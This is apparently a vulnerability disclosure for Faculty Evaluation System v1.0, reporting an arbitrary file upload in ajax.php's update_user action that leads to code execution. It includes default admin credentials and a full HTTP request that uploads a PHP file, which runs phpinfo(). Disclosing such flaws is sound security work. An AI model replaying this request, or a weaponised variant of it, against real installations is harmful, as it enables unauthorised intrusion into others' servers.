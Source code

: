 # Faculty Evaluation System v1.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author:  Cr4at0r

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Login account: admin@admin.com/admin123 (Super Admin account)

Vulnerability url: ip/eval/ajax.php?action=update_user

Loophole location: Faculty Evaluation System's "/eval/ajax.php?action=update_user" file exists arbitrary file upload (RCE)

Request package for file upload：


```sql
POST /eval/ajax.php?action=update_user HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/eval/index.php?page=report
Content-Length: 737
Content-Type: multipart/form-data; boundary=---------------------------166782539326470
Cookie: PHPSESSID=qm3tmf7esa9t4jsgeln6vna57r
Connection: close

-----------------------------166782539326470
Content-Disposition: form-data; name="id"

1
-----------------------------166782539326470
Content-Disposition: form-data; name="firstname"

Administrator
-----------------------------166782539326470
Content-Disposition: form-data; name="lastname"

a
-----------------------------166782539326470
Content-Disposition: form-data; name="email"

admin@admin.com
-----------------------------166782539326470
Content-Disposition: form-data; name="password"


-----------------------------166782539326470
Content-Disposition: form-data; name="img"; filename="php.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------166782539326470--
```


The files will be uploaded to this directory \eval\assets\uploads\

![image](https://user-images.githubusercontent.com/54017627/235872610-ee5e3850-21ca-43a5-a84a-31803d4640dd.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/235872485-c3515ac1-8564-43af-a501-b0618974b632.png)
